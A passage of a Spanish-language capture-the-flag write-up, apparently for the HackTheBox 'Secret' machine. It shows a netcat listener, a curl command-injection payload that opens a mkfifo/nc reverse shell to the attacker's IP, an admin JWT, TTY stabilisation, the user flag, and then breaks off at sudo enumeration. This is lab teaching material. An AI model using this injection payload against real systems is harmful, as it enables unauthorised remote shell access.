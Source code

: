Nos ponemos en escucha con **`netcat`** por el puerto 9999 (o el que quieras):

```console
p3ntest1ng:~$ nc -nlvp 9999
listening on [any] 9999 ...
```

Lanzamos la petición con curl al endpoint vulnerable:
> **NOTA:** Es importante que antes de nuestro payload metamos un punto y coma, esto separa el comando de lo que haya delante.

```console
p3ntest1ng:~$ curl -s -X GET "http://secret.htb/api/logs?file=;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.16.104%209999%20%3E%2Ftmp%2Ff" \
                -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmYTQ5NTQyZTU5NjA0NWJjZTAzNWEiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAcGVudGVzdGluZy5uZXQiLCJpYXQiOjE2NDgzMzg0MjV9.F4KOyd5y9h6hTc32fCP2eUHq89jQb2ZoW3hJDGJsScA" &; disown
```

Y finalmente obtenemos la esperada shell, pero antes de continuar vamos a realizar un tratamiento a la tty para mayor comodidad:

```console
p3ntest1ng:~$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.16.104] from (UNKNOWN) [10.10.11.120] 45134
/bin/sh: 0: can't access tty; job control turned off
$ script /dev/null -c bash
Script started, file is /dev/null
dasith@secret:~/local-web$ ^Z
zsh: suspended  nc -nlvp 9999
p3ntest1ng:~$ stty raw -echo; fg
[1]  + continued  nc -nlvp 9999
                               reset xterm
dasith@secret:~/local-web$ export TERM=xterm
dasith@secret:~/local-web$ export SHELL=bash
dasith@secret:~/local-web$ stty rows 43 columns 189
```

Y por último leemos la flag de usuario:

```console
dasith@secret:~/local-web$ cd && ls
local-web  user.txt
dasith@secret:~$ cat user.txt
b059b84ef86644c8c6f1f085b999296e
```

## Escalada de Privilegios

Vamos a comprobar los permisos a nivel de sudo en primer lugar.

```console
dasith@secret:~/local-web$ sudo -l
[sudo] password for dasith: 
dasith@secret:~/local-web$ 
```
